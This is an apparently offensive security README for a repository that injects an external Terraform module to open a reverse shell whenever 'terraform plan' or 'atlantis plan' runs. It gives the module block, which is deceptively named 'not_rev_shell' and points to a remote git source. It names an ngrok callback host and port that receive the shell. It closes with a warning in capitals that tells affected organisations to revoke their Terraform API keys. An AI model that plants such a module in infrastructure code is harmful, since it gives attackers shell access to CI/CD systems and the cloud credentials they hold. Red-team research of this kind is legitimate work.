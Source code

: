 # terraform_external_module_rev_shell

Terraform file external dependency injection to get rev shell when `terraform plan` or `atlantis plan` is run.

```bash
module "not_rev_shell" {
  source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```

More information in https://book.hacktricks.xyz/cloud-security/atlantis

IF YOU FOUND SOMETHING SIMILAR IN YOUR ORGANIZATION (this repo probably won't work out of the box as the rev shell is sent to 4.tcp.ngrok.io:15925), YOU HAVE BEEN COMPROMISED.
DEACTIVATE ALL THE API KEYS THAT TERRAFORM IS USING AND CHECK FOR FURTHER EXPLOITATIONS AND MOVEMENTS
